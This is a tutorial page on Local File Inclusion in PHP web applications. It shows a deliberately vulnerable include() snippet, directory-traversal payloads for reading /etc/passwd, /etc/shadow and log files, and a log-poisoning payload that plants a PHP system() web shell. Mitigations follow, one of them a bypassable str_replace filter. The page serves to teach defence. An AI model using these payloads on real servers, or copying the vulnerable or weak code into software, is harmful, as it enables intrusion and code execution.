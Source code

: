 ## Local File Inclusion (LFI)
Local File Inclusion (LFI) is **a web security vulnerability that allows an attacker to include files from the server’s local file system into a web application’s output**. This often happens when user input is not properly validated, enabling attackers to read sensitive files, execute code, or escalate privileges.

## 1. How Local File Inclusion Works
LFI occurs when a web application **dynamically includes a file based on user input without proper validation or sanitization**.

### Vulnerable Code Example
```
<?php
    $file = $_GET['file'];
    include("pages/" . $file);
?>
```

- Input URL
```
http://example.com/index.php?file=about.php
```
- The above input includes about.php from the server’s pages/ directory.

### Malicious Input
An attacker can manipulate the file parameter to traverse directories:
```
http://example.com/index.php?file=../../../../etc/passwd
```
- This includes the /etc/passwd file on a Linux system, leaking user account information.


## 2. Exploiting LFI
LFI can be used to

1. **Read Sensitive Files**
  - Access system files like
    - Linux
      - /etc/passwd (user account info)
      - /var/log/apache2/access.log (web server logs)
    - Windows
      - C:\windows\win.ini
      - C:\xampp\apache\logs\access.log
2. **Code Execution**
  - Include files containing malicious PHP code or scripts uploaded to the server.
  - Example
```
http://example.com/index.php?file=uploads/malicious.php
```

3. **Log Poisoning**
- Write malicious code into server logs and include the log file.
- Steps
  - Send a crafted request that writes a payload into access logs.
  - Include the log file to execute the malicious payload.
- Example payload:
```
http://example.com/%3C?php%20system($_GET['cmd']);%20?%3E
```

- Access log location
```
http://example.com/index.php?file=../../../../var/log/apache2/access.log&cmd=id
```

4. **Access Configuration Files**
  - Retrieve sensitive server configurations like:
    - wp-config.php in WordPress (database credentials).


## 3. Real-World LFI Example
A vulnerable web application might accept a page parameter like this
```
http://example.com/index.php?page=home.php
```

By exploiting LFI, an attacker could use directory traversal to access sensitive files
```
http://example.com/index.php?page=../../../../etc/passwd
```

### Result
The content of /etc/passwd is displayed, leaking usernames and system information.


## 4. Mitigation Techniques
1. **Input Validation**
  - Ensure user input is validated and sanitized.
  - Allow only predefined or whitelisted file names.

### Example
```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($file, $allowed_files)) {
    include("pages/" . $file);
} else {
    die("Access Denied");
}
```

2. **Avoid Dynamic File Inclusion**
  - Avoid using include() or require() with user-supplied input.
3. **Disable Directory Traversal**
  - Remove special characters like ../ or ..\\ from input.

### Example
```
$file = str_replace(array('../', '..\\'), '', $_GET['file']);
```

4. **Restrict File Permissions**
  - Configure proper file and directory permissions
    - Limit access to sensitive files.
    - Ensure uploaded files are placed outside the web root.
5. Use basename() to **Filter Input**
  - Strip directory path traversal attempts.
```
$file = basename($_GET['file']);
```

6. **Web Application Firewalls (WAFs)**
  - Deploy WAFs to block suspicious file inclusion patterns.
7. **Disable PHP File Execution in Upload Folders**
  - For Apache, add the following .htaccess rule
```
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```


## 5. Tools to Detect LFI
1. **Burp Suite**
  - Use Burp Intruder to test for directory traversal and LFI.
2. **OWASP ZAP**
  - Automated scanning for LFI vulnerabilities.
3. Manual Testing
  - Test with payloads like
```
../../../../etc/passwd
..\\..\\..\\..\\windows\\win.ini
```

4. **Metasploit**
  - Exploits LFI vulnerabilities and automates tests.


## 6. Common LFI Payloads

### Linux Payloads
- /etc/passwd
- /etc/shadow (requires elevated permissions)
- /var/log/apache2/access.log
- /proc/self/environ

### Windows Payloads
- C:\windows\win.ini
- C:\xampp\apache\logs\access.log

### Other Common Payloads
- ../../../../../etc/hosts
- ../../../../var/log/nginx/error.log


## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is LFI? | A vulnerability allowing inclusion of local server files. |
| Impact | Reading sensitive files, executing malicious code, log poisoning. |
| Exploitation Methods | Directory traversal, uploading files, including logs for code execution. |
| Prevention Techniques | Input validation, file whitelisting, disabling directory traversal. |
| Tools | Burp Suite, OWASP ZAP, Metasploit, manual testing. |


**Local File Inclusion (LFI) is a dangerous vulnerability that can expose sensitive server files or even enable remote code execution if combined with techniques like log poisoning or file uploads**. Proper **input validation**, **restricting dynamic file inclusion**, and **enforcing secure configurations** are critical defenses to prevent LFI exploits.